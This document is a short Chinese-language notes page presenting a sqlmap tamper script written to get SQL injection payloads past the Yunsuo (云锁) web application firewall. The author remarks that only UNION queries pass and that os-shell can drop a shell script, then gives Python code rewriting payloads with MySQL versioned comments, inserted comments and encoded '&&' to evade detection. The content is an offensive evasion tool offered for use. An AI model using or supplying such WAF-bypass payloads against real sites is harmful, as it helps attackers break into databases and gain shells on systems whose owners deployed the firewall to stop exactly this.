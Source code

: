# sqlmap bypass 云锁 tamper

> 原文：[http://book.iwonder.run/Tools/Sqlmap tamper/2.html](http://book.iwonder.run/Tools/Sqlmap tamper/2.html)

只支持用 union 查询来过的，其他的测试语句会被云锁报警，这里问下大佬 sqlmap 能不能指定 union 来测试。。 这个 os-shell 也可以写出 shell 脚本，但是还后续执行命令会被云锁报警

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.data import kb
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
         payload=payload.replace('ORDER','/*!00000order*/')
         payload=payload.replace('ALL SELECT','/*!00000all*/ /*!00000select')
         payload=payload.replace('CONCAT(',"CONCAT/**/(")
         payload=payload.replace("--"," */--")
         payload=payload.replace("AND","%26%26")
         return payload 
```

